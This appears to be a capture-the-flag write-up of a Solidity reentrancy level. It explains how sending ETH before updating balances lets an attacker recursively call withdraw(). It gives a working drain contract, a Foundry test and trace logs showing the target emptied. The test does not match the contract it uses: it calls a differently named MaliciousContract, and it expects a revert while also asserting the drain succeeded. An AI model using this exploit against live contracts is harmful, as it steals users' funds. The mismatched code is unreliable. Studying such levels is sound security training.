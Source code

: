 **Vulnerability**: 
 The contract sends ETH to msg.sender using .call before updating the internal state balances[msg.sender].
This allows an attacker to recursively call withdraw() in the fallback/receive function before their balance is updated.
Because of this, the same balance can be withdrawn multiple times, draining the entire contract balance

### 🛠️  Exploit Contract 
```solidity
 contract Attack {
    Reentrance public reentrance;

    constructor(Reentrance _reentrance) {
        reentrance = _reentrance;
    }

    function attack() external payable {
        reentrance.donate{value: msg.value}(address(this));
        reentrance.withdraw(msg.value);
    }

    receive() external payable {
        uint256 bal = reentrance.balanceOf(address(this));
        if (address(reentrance).balance > 0 && bal > 0) {
            uint256 toWithdraw = bal < 1 ether ? bal : 1 ether;
            reentrance.withdraw(toWithdraw);
        }
    }
}
```

### 🧪 Exploit Test
```solidity 
  function test_attack() public {
    vm.startPrank(attacker);
    MaliciousContract malicious = new MaliciousContract(reentrance);
    uint256 balanceBefore = address(malicious).balance;
    uint256 _reentrantbalance = address(reentrance).balance;

    vm.expectRevert("arithmetic underflow or overflow");
    malicious.attack{value: 1 ether}();
    
    assertEq(address(reentrance).balance, 0);
    assertEq(address(malicious).balance, balanceBefore + _reentrantbalance);
    vm.stopPrank();
}
```
### 📋 Test Output
``` text
Logs:
  balance of the contract before 1000000000000000000
  successfully donated
  balance of reentrance:  2000000000000000000
  balance of this contract:  0

Traces:
  ...
  ├─ Reentrance::withdraw(1 ether)
  │   ├─ MaliciousContract::receive()
  │   │   ├─ Reentrance::balanceOf()
  │   │   └─ Reentrance::withdraw(1 ether)
  │   │       ├─ MaliciousContract::receive() <== RECURSIVE CALL
```